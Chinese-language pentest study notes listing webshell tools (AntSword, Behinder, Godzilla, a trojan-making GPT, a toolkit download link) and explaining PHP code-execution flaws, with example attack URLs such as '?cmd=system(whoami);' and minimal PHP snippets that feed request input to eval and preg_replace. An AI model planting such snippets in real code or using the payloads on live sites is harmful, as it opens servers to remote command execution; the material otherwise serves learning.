 软件下载

~~~shell
# 软件
1、antsword(蚁剑)：明文
2、冰蝎（behind）：密文、不能自己写，要软件生成（加解密有key才可以加解密）
3、Godzilla：打包网站
4、做木马GPT
5、ONE-FOX集成工具箱_V3.0魔改版_by狐狸
百度网盘下载地址：https://pan.baidu.com/s/1JEtT2S9bjstuOeLqCx1ofQ?pwd=ofox
后续加入github项目地址
6、dama、gel4y（github）
######
内网穿透
~~~

# 七、代码执行、命令执行、中间件

## 1、代码执行（概率低）

动态代码执行函数过滤参数不严格，导致用户输入数据作为服务端代码执行。

危害：执行脚本代码

~~~shell
# 产生：
看功能点
1、web源码，一些常见的cms
2、中间件漏洞（框架）

# 相关函数造成代码执行:eval()函数，assert()函数，preg_replace()，create_function()，call_user_func()，
call_user_func_array()等
1、eval(),assert() ：把字符串当php来执行
	/eval.php?cmd=system(whoami);
	/eval.php?cmd=phpinfo();
2、preg_replace：/e修饰符当作php代码执行
	/preg.php?cmd=phpinfo();
# 动态函数调用:在PHP中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数。在PHP语言中，可以通过动态函数调用来对代码进行执行。
	/function.php?cmd=phpinfo
# 回调函数call_user_func：第一个参数是callback，是被调用的回调函数，其余后面的参数是回调函数的参数
	call_user_func.php?call=system&cmd=whoami

~~~

函数的使用

~~~shell
# eval函数
<?php
$a = $_GET['cmd'];
eval($a);
?>
# preg_replace函数
<?php
echo preg_replace("/hello/e",$_GET["cmd"],"helloworld");
?>//将hello用cmd替换
一般：preg_replace($pattern, $replacement, $string);//string里面的pattern替换成replacement
# 动态函数调用
<?php
function A(){
return "..A..";
}
function B(){
return "..B..";
}
~~~